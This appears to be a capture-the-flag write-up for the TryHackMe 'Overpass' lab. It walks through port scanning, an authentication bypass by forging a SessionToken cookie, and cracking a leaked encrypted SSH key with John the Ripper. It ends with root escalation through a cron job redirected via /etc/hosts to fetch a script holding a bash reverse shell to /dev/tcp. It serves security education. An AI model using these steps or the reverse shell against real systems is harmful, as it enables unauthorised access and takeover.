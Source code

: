 # Overpass

## Nmap scan 

```bash
nmap -sCV 10.10.197.109
```

```sql
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-21 19:56 EDT
Nmap scan report for 10.10.197.109
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds

```


---

```
http://10.10.197.109/
```

![image](https://github.com/user-attachments/assets/b95c3937-51a7-4f15-9c6d-840e60751811)


## gobuster

```
gobuster dir -u http://10.10.197.109/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```


![image](https://github.com/user-attachments/assets/4c4a4d71-b7d0-4a0d-aff3-801fc2334eb1)




```
http://10.10.183.88/admin/
```

![image](https://github.com/user-attachments/assets/57ef18bf-9899-48ef-af59-682301516079)


i try SQLI or bruteforce it not work i looked to ``login.js`` file:


![image](https://github.com/user-attachments/assets/176b846e-003b-42fa-9080-e17d1ac0aea8)

found :

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Vuln:

```js
Cookies.set("SessionToken",statusOrCookie)
```

so if i write any thing in ``SessionToken`` it will accept it 

so i will create new cookie : 

![image](https://github.com/user-attachments/assets/4354e8f3-e37c-412f-8e15-fa4002a0d204)


### **``SessionToken:anything``**

and refresh page:


![image](https://github.com/user-attachments/assets/ddd60049-fac0-48aa-9d93-6b67954e8dd7)



ooh found ``ssh key`` but it looks it have ``Passphrase `` 


```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```


```bash
nano id_rsa
chmod 600 id_rsa
```

to get ``Passphrase `` :

```
ssh2john id_rsa > rsa_hash.txt
```

```
john rsa_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
john rsa_hash.txt --show
```

![image](https://github.com/user-attachments/assets/5fb62244-188c-45c9-915c-c0cc8652f930)


```
james13
```


## login with ssh


```
ssh -i id_rsa james@10.10.183.88
```



![image](https://github.com/user-attachments/assets/922f5baa-91a0-4406-9737-93a18e4c5294)


user.txt

```
thm{65c1aaf000506e56996822c6281e6bf7}
```

## privilage esc


if we check ``/etc/crontab``

```
cat /etc/crontab
```

![image](https://github.com/user-attachments/assets/01fc02c1-39e0-487d-a1d0-f1d47da72392)


![image](https://github.com/user-attachments/assets/d4e17e52-48cd-4518-bf14-57babc2d3993)


```bash
cat /etc/hosts
ls -l /etc/hosts
```


![image](https://github.com/user-attachments/assets/1fee3b5e-055d-4144-ad5f-af3e81c518da)



now change the ``ip`` for ``overpass.thm`` to your ip :

![image](https://github.com/user-attachments/assets/2b7bb82f-400f-4a0c-aa65-206e33df80dd)


```bash
mkdir -p downloads/src/  
```

```bash
nano buildscript.sh
```

```
bash -c "bash -i >& /dev/tcp/10.8.47.102/4444 0>&1"
```


```
nc -lvpn 4444
```


```
python3 -m http.server 80
```

![image](https://github.com/user-attachments/assets/94c5a907-0516-406f-86c6-f2ca3a50b283)


---

![image](https://github.com/user-attachments/assets/d527d3b0-5dfc-48a6-aac1-938e7f8b74c5)



